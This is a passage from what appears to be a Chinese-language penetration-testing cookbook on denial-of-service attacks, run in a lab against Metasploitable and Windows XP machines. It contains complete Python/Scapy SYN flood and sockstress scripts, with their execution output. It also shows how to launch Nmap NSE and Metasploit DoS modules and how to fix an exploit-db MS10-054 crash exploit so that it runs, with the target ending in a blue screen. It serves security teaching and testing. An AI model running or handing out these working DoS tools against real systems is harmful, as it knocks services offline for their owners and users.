logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
if len(sys.argv) != 4:
print "Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]"
print "Example - ./sock_stress.py 10.0.0.5 80 20"
print "Example will perform a 20x multi-threaded SYN flood attack"
print "against the HTTP (port 80) service on 10.0.0.5"
sys.exit()
target = str(sys.argv[1])
port = int(sys.argv[2])
threads = int(sys.argv[3])
print "Performing SYN flood. Use Ctrl+C to stop attack."
def synflood(target,port):
while 0 == 0:
x = random.randint(0,65535)
send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0)
for x in range(0,threads):
thread.start_new_thread(synflood, (target,port))
while 0 == 0:
sleep(1)
脚本在执行时接受三个参数。 这些参数包括目标 IP 地址，SYN 泛洪所发送到的端口号，以及将用于执行 SYN 泛洪的线程或并发进程的数量。 每个线程以生成 0 到 65,535 之间的整数值开始。 此范围表示可分配给源端口的全部可能值。 定义源和目标端口地址的 TCP 报头的部分在长度上都是 16 比特。 每个位可以为 1 或 0。因此，有2 ** 16或 65,536 个可能的 TCP 端 口地址。 单个源端口只能维持一个半开连接，因此通过为每个 SYN 请求生成唯一的源端口地址，我们可以大大提高攻击的性能：
root@KaliLinux:~# ./syn_flood.py U
sage - ./syn_flood.py [Target-IP] [Port Number] [Threads]
Example - ./sock_stress.py 10.0.0.5 80 20
Example will perform a 20x multi-threaded SYN flood attack against the HTTP (port 80) service on 10.0.0.5
root@KaliLinux:~# ./syn_flood.py 172.16.36.135 80 20
Performing SYN flood. Use Ctrl+C to stop attack.
当在没有任何参数的情况下执行脚本时，会将使用方法返回给用户。在提供的示例中，脚本对托管在172.16.36.135的 TCP 端口 80 上的 HTTP Web 服务执行，具有 20 个并发线程 。脚本本身提供的反馈很少; 但是，可以运行流量捕获工具（如 Wireshark 或 TCPdump）来验证是否正在发送连接。在非常短暂的时间之后，与服务器的连接尝试会变得非常慢或完全无响应。
工作原理
TCP 服务只允许建立有限数量的半开连接。 通过快速发送大量的 TCP SYN 请求，这些可用的连接会被耗尽，并且服务器将不再能够接受新的传入连接。 因此，新用户将无法访问该服务。 通过将其用作 DDoS 并且使多个攻击系统同时执行脚本，该攻击的效率可以进一步加强。
6.8 Sockstress DoS 攻击
Sockstress DoS 攻击涉及到与目标服务相关的 TCP 端口建立一系列开放连接。 TCP 握手中的最终 ACK 响应的值应为 0。
准备
为了使用 Scapy 对目标执行Sockstress DoS 攻击，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。
操作步骤
以下脚本使用 Scapy 编写，用于对目标系统执行 Sockstress DoS 攻击。 以下脚本可用于测试漏洞服务：
#!/usr/bin/python
from scapy.all import *
from time import sleep
import thread
import logging
import os
import signal
import sys
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
if len(sys.argv) != 4:
print "Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads]"
print "Example - ./sock_stress.py 10.0.0.5 21 20"
print "Example will perform a 20x multi-threaded sock-stress DoS attack "
print "against the FTP (port 21) service on 10.0.0.5"
print "\n***NOTE***"
print "Make sure you target a port that responds when a connection is made"
sys.exit()
target = str(sys.argv[1])
dstport = int(sys.argv[2])
threads = int(sys.argv[3])
## This is where the magic happens
def sockstress(target,dstport): while 0 == 0:
try:
x = random.randint(0,65535)
response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags ='S'),timeout=1,verbose=0)
send(IP(dst=target)/ TCP(dport=dstport,sport=x,window=0,flags='A',ack=(response[TCP].seq + 1))/'\x00\x00',verbose=0)
except:
pass
## Graceful shutdown allows IP Table Repair
def graceful_shutdown(signal, frame):
print '\nYou pressed Ctrl+C!'
print 'Fixing IP Tables'
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP')
sys.exit()
## Creates IPTables Rule to Prevent Outbound RST Packet to Allow Scapy TCP Connections
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP')
signal.signal(signal.SIGINT, graceful_shutdown)
## Spin up multiple threads to launch the attack
print "\nThe onslaught has begun...use Ctrl+C to stop the attack"
for x in range(0,threads):
thread.start_new_thread(sockstress, (target,dstport))
## Make it go FOREVER (...or at least until Ctrl+C)
while 0 == 0:
sleep(1)
请注意，此脚本有两个主要功能，包括 sockstress 攻击功能和单独的正常关机功能。 关闭需要单独的函数，因为为了使脚本正常运行，脚本必须修改本地 iptables 规则。 此更改是必需的，以便使用 Scapy 完成与远程主机的 TCP 连接。 在第三章“端口扫描”的“使用 Scapy 配置连接扫描”中，更彻底地解决了这一问题。 在执行脚本之前，我们可以使用 netstat 和 free 工具为已建立的连接和正在使用的内存获取基线：
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED
tcp6 0 0 172.16.36.131%13464:ssh 172.16.36.1%8191:49826 ESTABLISHED
udp 0 0 localhost:32840 localhost:32840 ESTABLISHED
msfadmin@metasploitable:~$ free -m
total used free shared buffers cached
Mem: 503 157 345 0 13 54
-/+ buffers/cache: 89 413
Swap: 0 0 0
通过使用 netstat，然后通过管道输出到grep函数，并只提取已建立的连接，我们可以看到只存在两个连接。 我们还可以使用free工具查看当前的内存使用情况。 -m选项用于返回以兆字节为单位的值。 在确定已建立的连接和可用内存的基线后，我们可以对此目标服务器启动攻击：
root@KaliLinux:~# ./sock_stress.py
Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads]
Example - ./sock_stress.py 10.0.0.5 21 20
Example will perform a 20x multi-threaded sock-stress DoS attack against the FTP (port 21) service on 10.0.0.
***NOTE***
Make sure you target a port that responds when a connection is made
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20
The onslaught has begun...use Ctrl+C to stop the attack
通过在没有任何提供的参数的情况下执行脚本，脚本将返回预期的语法和用法。脚本在执行时接受三个参数。这些参数包括目标 IP 地址，sock stress DoS所发送的端口号，以及将用于执行 sock stress DoS 的线程或并发进程的数量。每个线程以生成 0 到 65,535 之间的整数值开始。此范围表示可分配给源端口的全部可能值。定义源和目的地端口地址的 TCP 报头的部分在长度上都是 16 比特。每个位可以为值 1 或 0。因此，有2 ** 16或 65,536 个可能的 TCP 端口地址。单个源端口只能维持单个连接，因此通过为每个连接生成唯一的源端口地址，我们可以大大提高攻击的效率。一旦攻击开始，我们可以通过检查在目标服务器上建立的活动连接，来验证它是否正常工作：
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:25624 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:12129 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:31294 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:46731 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:15281 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:47576 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:27472 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:11152 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:56245 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:1161 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:21064 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:29344 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:43747 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:59609 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:31927 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:12257 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:54709 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:55595 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:12992 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:24171 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:37207 ESTABLISHED
tcp 0 20 172.16.36.131:ftp 172.16.36.232:39224 ESTABLISHED
在执行脚本后的几分钟，我们可以看到已建立的连接的数量急剧增加。 此处显示的输出已截断，连接列表实际上明显长于此：
msfadmin@metasploitable:~$ free -m
total used free shared buffers cached
Mem: 503 497 6 0 149
138 -/+ buffers/cache: 209 294
Swap: 0 0 0
通过连续使用free 工具，我们可以看到，系统的可用内存逐渐耗尽。 一旦内存空闲值下降到几乎没有，空闲缓冲区/缓存空间将开始下降：
msfadmin@metasploitable:~$ free -m
total used free shared buffers cached
Mem: 503 498 4 0 0
5 -/+ buffers/cache: 493 10
Swap: 0 0 0
在本地系统上的所有资源耗尽之后，系统最终会崩溃。 完成此过程所需的时间将取决于可用的本地资源量。 在这里提供的示例中，这是在具有 512 MB RAM 的 Metasploitable VM 上执行的，攻击花费了大约 2 分钟来耗尽所有可用的本地资源并使服务器崩溃。 服务器崩溃后，或者你希望停止 DoS 攻击时，可以按Ctrl + C。
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20
The onslaught has begun...use Ctrl+C to stop the attack
^C
pressed Ctrl+C!
Fixing IP Tables
脚本被编写来捕获由于按Ctrl + C而发送的终止信号，并且它将通过去除在终止脚本的执行序列之前生成的规则,来修复本地 iptables。
工作原理
在 sockstress DoS 中，三次握手中的最后的 ACK 封包的窗口值为 0。由于连接客户端的空窗口所示，漏洞服务不会传送任何数据来响应连接。 相反，服务器会保存要在内存中传输的数据。 使用这些连接充斥服务器将耗尽服务器的资源，包括内存，交换空间和计算能力。
6.9 使用 Nmap NSE 执行 DoS 攻击
Nmap 脚本引擎（NSE）拥有许多可用于执行 DoS 攻击的脚本。 这个特定的秘籍演示了如何找到 NSE DoS 脚本，确定脚本的用法，以及如何执行它们。
准备
为了使用 Nmap NSE 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Nmap NSE DoS 脚本之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。
操作步骤
在使用 Nmap NSE 脚本执行 DoS 测试之前，我们需要确定哪些 DoS 脚本可用。 在 Nmap NSE 脚本目录中有一个greppable script.db文件，可用于确定任何给定类别中的脚本：
root@KaliLinux:~# grep dos /usr/share/nmap/scripts/script.db | cut -d "\"" -f 2
broadcast-avahi-dos.nse
http-slowloris.nse ipv6-ra-flood.nse
smb-check-vulns.nse
smb-flood.nse
smb-vuln-ms10-054.nse
通过从script.db文件中使用grep搜索 DoS，然后将输出通过管道传递到cut函数，我们可以提取可用的脚本。 通过阅读任何一个脚本的头部，我们通常可以找到很多有用的信息：
root@KaliLinux:~# cat /usr/share/nmap/scripts/smb-vuln-ms10-054.nse | more
local bin = require "bin"
local msrpc = require "msrpc"
local smb = require "smb"
local string = require "string"
local vulns = require "vulns"
local stdnse = require "stdnse"
description = [[
Tests whether target machines are vulnerable to the ms10-054 SMB remote memory
corruption vulnerability.
The vulnerable machine will crash with BSOD.
The script requires at least READ access right to a share on a remote machine.
Either with guest credentials or with specified username/password.
为了从上到下读取脚本，我们应该对文件使用cat命令，然后通过管道输出到more工具。 脚本的头部描述了它所利用的漏洞以及系统必须满足的条件。 它还解释了该漏洞将导致蓝屏死机（BSOD）DoS。 通过进一步向下滚动，我们可以找到更多有用的信息：
-- @usage nmap -p 445 <target>
--script=smb-vuln-ms10-054
--script-args unsafe
--- @args unsafe Required to run the script, "safty swich" to prevent running it by accident
-- @args smb-vuln-ms10-054.share Share to connect to (defaults to SharedDocs)
-- @usage nmap -p 445 <target>
--script=smb-vuln-ms10-054
--script-args unsafe
--- @args unsafe Required to run the script, "safty swich" to prevent running it by accident
-- @args smb-vuln-ms10-054.share Share to connect to (defaults to SharedDocs)
-- @output
-- Host script results:
-- | smb-vuln-ms10-054:
-- | VULNERABLE:
-- | SMB remote memory corruption vulnerability
-- | State: VULNERABLE
-- | IDs: CVE:CVE-2010-2550
-- | Risk factor: HIGH CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/ A:C)
-- | Description:
-- | The SMB Server in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2,
-- | Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7
-- | does not properly validate fields in an SMB request, which allows remote attackers
-- | to execute arbitrary code via a crafted SMB packet, aka "SMB Pool Overflow Vulnerability."
在脚本中，我们可以找到脚本用法和脚本提供的参数的描述。 它还提供了有关其利用的漏洞的其他详细信息。 要执行脚本，我们需要在 Nmap 中使用--script选项：
root@KaliLinux:~# nmap -p 445 172.16.36.134 --script=smb-vuln-ms10-054 --script-args unsafe=1
Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-28 23:45 EST
Nmap scan report for 172.16.36.134
Host is up (0.00038s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)
Host script results:
| smb-vuln-ms10-054:
| VULNERABLE:
| SMB remote memory corruption vulnerability
| State: VULNERABLE
| IDs: CVE:CVE-2010-2550
| Risk factor: HIGH CVSSv2: 10.0 (HIGH) (AV:N/AC:L/Au:N/C:C/I:C/A:C)
| Description:
| The SMB Server in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2,
| Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7
| does not properly validate fields in an SMB request, which allows remote attackers
| to execute arbitrary code via a crafted SMB packet, aka "SMB Pool Overflow Vulnerability."
在提供的示例中，Nmap 被定向为仅扫描 TCP 端口 445，这是该漏洞的相关端口。 --script选项与指定所使用的脚本的参数一起使用。 我们传递了单个脚本参数来表明可以接受不安全扫描。 此参数的描述是，可用于授权 DoS 攻击的安全开关。 在 Nmap 中执行脚本后，输出表明系统存在漏洞。 查看 Windows XP 机器，我们可以看到 DoS 成功，这导致了蓝屏：

工作原理
本练习中演示的 Nmap NSE 脚本是缓冲区溢出攻击的示例。 一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。
6.10 Metasploit DoS 攻击
Metasploit框架有许多辅助模块脚本，可用于执行 DoS 攻击。 这个特定的秘籍演示了如何找到 DoS 模块，确定模块的使用方式，以及如何执行它们。
准备
为了使用 Metasploit 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Metasploit DoS 辅助模块之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。
操作步骤
在使用 Metasploit 辅助模块执行 DoS 测试之前，我们需要确定哪些 DoS 模块可用。 相关模块可以通过浏览 Metasploit 目录树来确定：
root@KaliLinux:~# cd /usr/share/metasploit-framework/modules/auxiliary/ dos/
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos# ls cisco dhcp freebsd hp http mdns ntp pptp samba scada smtp solaris ssl syslog tcp wifi windows wireshark
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos# cd windows/
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows# ls appian browser ftp games http llmnr nat rdp smb smtp tftp
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows# cd http
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows/http# ls ms10_065_ii6_asp_dos.rb
pi3web_isapi.rb
通过浏览/ modules / auxiliary / dos目录，我们可以看到各种类别的 DoS 模块。 在提供的示例中，我们已浏览包含 Windows HTTP 拒绝服务漏洞的目录：
root@KaliLinux:/usr/share/metasploit-framework/modules/auxiliary/dos/ windows/http# cat ms10_065_ii6_asp_dos.rb | more
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
# http://metasploit.com/
##
require 'msf/core'
class Metasploit3 < Msf::Auxiliary
include Msf::Exploit::Remote::Tcp
include Msf::Auxiliary::Dos
def initialize(info = {})
super(update_info(info,
'Name' => 'Microsoft IIS 6.0 ASP Stack Exhaustion Denial of Service',
'Description' => %q{
The vulnerability allows remote unauthenticated attackers to force the IIS server
to become unresponsive until the IIS service is restarted manually by the administrator.
Required is that Active Server Pages are hosted by the IIS and that an ASP script reads
out a Post Form value.
},
'Author' =>
[
'Alligator Security Team',
'Heyder Andrade <heyder[at]alligatorteam.org>',
'Leandro Oliveira <leadro[at]alligatorteam.org>'
],
'License' => MSF_LICENSE,
'References' =>
[
[ 'CVE', '2010-1899' ],
[ 'OSVDB', '67978'],
[ 'MSB', 'MS10-065'],
[ 'EDB', '15167' ]
],
'DisclosureDate' => 'Sep 14 2010'))
为了从上到下读取脚本，我们应该对文件使用cat命令，然后通过管道输出到more工具。 脚本的顶部描述了它所利用的漏洞以及系统必须满足的条件。 我们还可以在 Metasploit 框架控制台中识别潜在的 DoS 漏洞。 要访问它，在终端中键入msfconsole：
root@KaliLinux:~# msfconsole # cowsay++
____________
< metasploit >
-----------
\ ,__,
\ (oo)____
(__) )\
||--|| *
Large pentest? List, sort, group, tag and search your hosts and services in Metasploit Pro -- type 'go_pro' to launch it now.
=[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops
msf >
一旦打开，搜索命令可以与搜索项结合使用，来确定要使用的漏洞利用：
msf > search dos
Matching Modules
================
Name Disclosure Date Rank Description ---- -------------- ---- ----------
auxiliary/admin/webmin/edit_html_fileaccess 2012-09-06 normal Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
auxiliary/dos/cisco/ios_http_percentpercent 2000-04-26 normal Cisco IOS HTTP GET /%% request Denial of Service
auxiliary/dos/dhcp/isc_dhcpd_clientid normal ISC DHCP Zero Length ClientID Denial of Service Module
auxiliary/dos/freebsd/nfsd/nfsd_mount normal FreeBSD Remote NFS RPC Request Denial of Service
auxiliary/dos/hp/data_protector_rds 2011-01-08 manual HP Data Protector Manager RDS DOS
auxiliary/dos/http/3com_superstack_switch 2004-06-24 normal 3Com SuperStack Switch Denial of Service
auxiliary/dos/http/apache_mod_isapi 2010-03-05 normal Apache mod_isapi <= 2.2.14 Dangling Pointer
auxiliary/dos/http/apache_range_dos 2011-08-19 normal Apache Range header DoS (Apache Killer)
auxiliary/dos/http/apache_tomcat_transfer_encoding 2010-07-09 normal Apache Tomcat Transfer-Encoding Information Disclosure and DoS
在提供的示例中，搜索项 dos 用于查询数据库。 返回一系列 DoS 辅助模块，并且包括每个 DoS 辅助模块的相对路径。 此相对路径可用于缩小搜索结果范围：
msf > search /dos/windows/smb/
Matching Modules
================
Name Disclosure Date Rank Description
---- -------------- ---- ----------
auxiliary/dos/windows/smb/ms05_047_pnp normal Microsoft Plug and Play Service Registry Overflow
auxiliary/dos/windows/smb/ms06_035_mailslot 2006-07-11 normal Microsoft SRV.SYS Mailslot Write Corruption
auxiliary/dos/windows/smb/ms06_063_trans normal Microsoft SRV.SYS Pipe Transaction No Null
auxiliary/dos/windows/smb/ms09_001_write normal Microsoft SRV.SYS WriteAndX Invalid DataOffset
auxiliary/dos/windows/smb/ms09_050_smb2_negotiate_pidhigh normal Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference
auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff normal Microsoft SRV2.SYS SMB2 Logoff Remote Kernel NULL Pointer Dereference
auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop normal Microsoft Windows 7 / Server 2008 R2 SMB Client Infinite Loop
auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow normal Microsoft Windows SRV.SYS SrvSmbQueryFsInformation Pool Overflow DoS
auxiliary/dos/windows/smb/ms11_019_electbowser manual Microsoft Windows Browser Pool DoS
auxiliary/dos/windows/smb/rras_vls_null_deref 2006-06-14 normal Microsoft RRAS InterfaceAdjustVLSPointers NULL Dereference
auxiliary/dos/windows/smb/vista_negotiate_stop normal Microsoft Vista SP0 SMB Negotiate Protocol DoS
在查询/ dos / windows / smb的相对路径后，返回的唯一结果是此目录中的 DoS 模块。 目录组织良好，可用于有效地搜索与特定平台或服务相关的漏洞。 一旦我们决定使用哪个漏洞，我们可以使用use命令和模块的相对路径来选择它：
msf > use auxiliary/dos/windows/smb/ms06_063_trans
msf auxiliary(ms06_063_trans) > show options
Module options (auxiliary/dos/windows/smb/ms06_063_trans):
Name Current Setting Required Description ----
--------------- -------- ----------
RHOST yes The target address
RPORT 445 yes Set the SMB service port
一旦选择了模块，show options命令可用于确定和/修改扫描配置。 此命令会显示四个列标题，包括Name, Current Setting, Required, 和 Description。 Name列表示每个可配置变量的名称。 Current Setting列列出任何给定变量的现有配置。 Required列表明任何给定变量是否需要值。 Description列描述每个变量的函数。 可以使用set命令并通过提供新值作为参数，来更改任何给定变量的值：
msf auxiliary(ms06_063_trans) > set RHOST 172.16.36.134
=> 172.16.36.134
msf auxiliary(ms06_063_trans) > show options
Module options (auxiliary/dos/windows/smb/ms06_063_trans):
Name Current Setting Required Description
---- --------------- -------- ----------
RHOST 172.16.36.134 yes The target address
RPORT 445 yes Set the SMB service port
在提供的示例中，RHOST值更改为我们打算扫描的远程系统的 IP 地址。 更新必要的变量后，可以使用show options命令再次验证配置。 一旦验证了所需的配置，可以使用run命令启动模块：
msf auxiliary(ms06_063_trans) > run
[*] Connecting to the target system...
[*] Sending bad SMB transaction request 1...
[*] Sending bad SMB transaction request 2...
[*] Sending bad SMB transaction request 3...
[*] Sending bad SMB transaction request 4...
[*] Sending bad SMB transaction request 5...
[*] Auxiliary module execution completed
在执行 Metasploit DoS 辅助模块之后，返回的一系列消息表明已经执行了一系列恶意 SMB 事务，并且返回表示模块执行完成的最终消息。 该漏洞的成功可以通过查看 Windows XP 系统来验证，它已经崩溃，现在显示 BSOD：
工作原理
本练习中演示的 Metasploit DoS 辅助模块是缓冲区溢出攻击的示例。 一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。
6.11 使用 exploit-db 执行DoS 攻击
exploit-db 是针对所有类型的平台和服务的，公开发布的漏洞利用集合。 exploit-db 拥有许多可用于执行DoS攻击的漏洞。 这个特定的秘籍演示了如何在 exploit-db 中找到DoS漏洞，确定漏洞的用法，进行必要的修改并执行它们。
准备
为了使用 exploit-db 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Metasploit DoS 辅助模块之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。
操作步骤
在使用 exploit-db 执行 DoS 测试之前，我们需要确定哪些 DoS 漏洞可用。 可以在http://www.exploit-db.com在线找到全部的漏洞利用数据库。 或者，其副本也本地存储在 Kali Linux 文件系统中。 在exploitdb目录中有一个files.csv文件，其中包含所有内容的目录。 此文件可用于对关键字进行grep，来帮助定位可用的漏洞利用：
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv
20,platforms/windows/remote/20.txt,"MS Windows SMB Authentication Remote Exploit",2003-04-25,"Haamed Gheibi",windows,remote,139
1065,platforms/windows/dos/1065.c,"MS Windows (SMB) Transaction Response Handling Exploit (MS05-011)",2005-06-23,cybertronic,windows,dos,0
4478,platforms/linux/remote/4478.c,"smbftpd 0.96 SMBDirListfunction Remote Format String Exploit",2007-10-01,"Jerry Illikainen",linux,remote,21
6463,platforms/windows/dos/6463.rb,"MS Windows WRITE_ANDX SMB command handling Kernel DoS (meta)",2008-09-15,"Javier Vicente Vallejo",windows,dos,0
9594,platforms/windows/dos/9594.txt,"Windows Vista/7 SMB2.0 Negotiate Protocol Request Remote BSOD Vuln",2009-09-09,"Laurent Gaffie",windows,dos,0
在所提供的示例中，我们使用grep函数在files.csv文件中搜索包含 SMB 的任何 exploit-db 内容。 还可以通过将输出通过管道连接到另一个grep函数，并搜索附加项来进一步缩小搜索范围：
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv | grep dos
1065,platforms/windows/dos/1065.c,"MS Windows (SMB) Transaction Response Handling Exploit (MS05-011)",2005-06-23,cybertronic,windows,dos,0
6463,platforms/windows/dos/6463.rb,"MS Windows WRITE_ANDX SMB command handling Kernel DoS (meta)",2008-09-15,"Javier Vicente Vallejo",windows,dos,0
9594,platforms/windows/dos/9594.txt,"Windows Vista/7 SMB2.0 Negotiate Protocol Request Remote BSOD Vuln",2009-09-09,"Laurent Gaffie",windows,dos,0
12258,platforms/windows/dos/12258.py,"Proof of Concept for MS10-006 SMB Client-Side Bug",2010-04-16,"Laurent Gaffie",windows,dos,0
12273,platforms/windows/dos/12273.py,"Windows 7/2008R2 SMB Client Trans2 Stack Overflow 10-020 PoC",2010-04-17,"Laurent Gaffie",windows,dos,0
在提供的示例中，我们依次使用两个独立的grep函数，来搜索与 SMB 服务相关的任何 DoS 漏洞：
root@KaliLinux:~# grep SMB /usr/share/exploitdb/files.csv | grep dos | grep py | grep -v "Windows 7"
12258,platforms/windows/dos/12258.py,"Proof of Concept for MS10-006 SMB Client-Side Bug",2010-04-16,"Laurent Gaffie",windows,dos,0
12524,platforms/windows/dos/12524.py,"Windows SMB2 Negotiate Protocol (0x72) Response DOS",2010-05-07,"Jelmer de Hen",windows,dos,0
14607,platforms/windows/dos/14607.py,"Microsoft SMB Server Trans2 Zero Size Pool Alloc (MS10-054)",2010-08-10,"Laurent Gaffie",windows,dos,0
我们可以继续缩小搜索结果，使其尽可能具体。 在提供的示例中，我们查找了 SMB 服务的任何 Python DoS 脚本，但是我们寻找的不是 Windows 7 平台的。 grep中的-v选项可用于从结果中排除内容。 通常最好将所需的漏洞利用复制到另一个位置，以便不会修改 exploit 数据库目录的内容：
root@KaliLinux:~# mkdir smb_exploit
root@KaliLinux:~# cd smb_exploit/
root@KaliLinux:~/smb_exploit# cp /usr/share/exploitdb/platforms/windows/ dos/14607.py /root/smb_exploit/
root@KaliLinux:~/smb_exploit# ls 14607.py
在提供的示例中，我们为脚本创建一个新目录。 然后从绝对路径复制脚本，该路径可以由 exploit-db 的目录位置和files.csv文件中定义的相对路径推断。 一旦重新定位，就可以使用cat命令从上到下读取脚本，然后将脚本的内容传递给more工具：
root@KaliLinux:~/smb_exploit# cat 14607.py | more ?
#!/usr/bin/env python
import sys,struct,socket
from socket import *
if len(sys.argv)<=2:
print '############################################################### ########'
print '# MS10-054 Proof Of Concept by Laurent Gaffie'
print '# Usage: python '+sys.argv[0]+' TARGET SHARE-NAME (No backslash)'
print '# Example: python '+sys.argv[0]+' 192.168.8.101 users'
print '# http://g-laurent.blogspot.com/'
print '# http://twitter.com/laurentgaffie'
print '# Email: laurent.gaffie{at}gmail{dot}com'
print '############################################################### ########\n\n'
sys.exit()
与 NSE 脚本和 Metasploit 辅助模块不同，漏洞数据库中的脚本没有标准化格式。 因此，使用漏洞有时会很棘手。 尽管如此，查看脚本内容中的为注释或使用说明通常是有帮助的。 在提供的示例中，我们可以看到，使用情况列在脚本的内容中，如果未提供适当数量的参数，也会将其打印给用户。 评估之后，可以执行脚本。
root@KaliLinux:~/smb_exploit# ./14607.py
./14607.py: line 1: ?#!/usr/bin/env: No such file or directory
import.im6: unable to open X server `' @ error/import.c/
ImportImageCommand/368.
from: can't read /var/mail/socket
./14607.py: line 4: $'\r': command not found
./14607.py: line 5: syntax error near unexpected token `sys.argv'
'/14607.py: line 5: `if len(sys.argv)<=2:
但是，在尝试执行脚本后，我们可以看到出现了问题。 由于缺乏标准化，并且由于一些脚本只是概念证明，通常需要对这些脚本进行调整：
?#!/usr/bin/env python
import sys,struct,socket
from socket import *
在脚本错误出现后，我们需要返回到文本编辑器，并尝试确定错误的来源。 第一个错误表明，在脚本开头列出的 Python 解释器的位置存在问题。 这必须改变为指向 Kali Linux 文件系统中的解释器：
#!/usr/bin/python
import sys,struct,socket
from socket import *
在每个问题解决后，尝试再次运行脚本通常是个好主意，有时，修复单个问题会消除多个执行错误。 这里，在更改 Python 解释器的位置后，我们可以成功运行脚本：
root@KaliLinux:~/smb_exploit# ./14607.py 172.16.36.134 users
[+]Negotiate Protocol Request sent
[+]Malformed Trans2 packet sent
[+]The target should be down now
当脚本运行时，会返回几个消息来标识脚本执行的进度。 最后一条消息表明恶意的载荷已传送，服务器应该已经崩溃。 该脚本的成功执行可以通过返回 Windows 服务器来验证，它现在已经崩溃，并显示了 BSOD：
工作原理
本练习中演示的 exploit-db DoS 脚本是缓冲区溢出攻击的示例。 一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。